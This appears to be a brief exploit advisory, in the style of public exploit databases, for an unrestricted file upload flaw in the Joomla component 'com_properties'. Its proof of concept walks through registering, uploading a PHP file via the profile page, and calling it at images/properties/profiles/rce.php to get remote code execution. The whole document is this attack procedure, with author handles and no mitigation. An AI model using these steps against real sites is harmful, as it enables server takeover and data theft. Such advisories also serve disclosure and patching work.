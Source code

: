 # com_properties
# Exploit Title: Joomla Component 'com_properties' File Upload/RCE
# Google Dork: NA
# Exploit Author: Und3r-r00t
# Tested on: Centos

#PoC  

1- register and login

  http://localhost/index.php?option=com_user&task=register&Itemid=296
  
  http://localhost/index.php?option=com_user&view=login

2- Upload File 

	http://localhost/index.php?option=com_properties&amp;view=profile&amp;Itemid=19

3- File path

	http://localhost/images/properties/profiles/rce.php


----------------------
github - Und3r-r00t
twitter - @p33rl
----------------------
